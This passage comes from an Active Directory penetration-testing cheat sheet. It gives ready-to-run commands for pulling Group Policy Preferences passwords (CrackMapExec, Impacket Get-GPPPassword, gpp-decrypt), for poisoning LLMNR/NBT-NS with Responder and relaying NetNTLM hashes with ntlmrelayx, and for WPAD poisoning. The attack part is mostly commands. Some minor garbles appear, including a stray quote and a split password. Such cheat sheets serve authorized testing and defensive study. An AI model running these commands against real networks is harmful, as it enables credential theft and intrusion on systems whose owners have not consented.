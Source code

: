 ##### CrackMapExec Module 2: gpp_autologin
Searches the domain controller for registry.xml to find autologon information and returns the username and password.
```
crackmapexec smb 192.168.0.10 -u jdoe -p Password 123 -M gpp_autologin
```

##### Impacket Module
Breadth-first search algorithm to recursively find .xml extension files within SYSVOL.
```
Get-GPPPassword.py company.local/jdoe:Password123@192.168.0.10'
```

##### Decrypt the found password manually
```
gpp-decrypt <encrypted cpassword>
```



### LLMNR / NBT-NS / mDNS
> Microsoft systems use Link-Local Multicast Name Resolution (LLMNR) and the NetBIOS Name Service (NBT-NS) for local host resolution when DNS lookups fail. Apple Bonjour and Linux zero-configuration implementations use Multicast DNS (mDNS) to discover systems within a network.

#### Responder + ntlmrelayx
It is possible to directly relay NetNTLM has to SMB/LDAP/HTTP and DNS session over a victim. If the victim has SMB and/or LDAP signing activated try to relay on other protocols than SMB or LDAP.

Poisoning LLMNR/NetBios-NS response
```
python3 Responder.py -I eth0 -wbF
```

Relay over smb to 192.168.0.10, with smb2 support, socks enable, interactive mode and dumping the NetNTLM relayed hash in option
```
sudo ntlmrelayx.py -t 192.168.0.10 -i -socks -smb2support -debug --output-file ./netntlm.hashes.relay
```


### WPAD
Many browsers use Web Proxy Auto-Discovery (WPAD) to load proxy settings from the network, download the wpad.dat, Proxy Auto-Config (PAC) file.

A WPAD server provides client proxy settings via a particular URL:
- http://wpad.example.org/wpad.dat

--> When a machine has these protocols enabled, if the local network DNS is not able to resolve the name, the machine will ask to all hosts of the network.  

Using Responder we can poison DNS, DHCP, LLMNR and NBT-NS traffic to redirect clients to a malicious WPAD Server.
```
responder -I eth0 -wFb
```
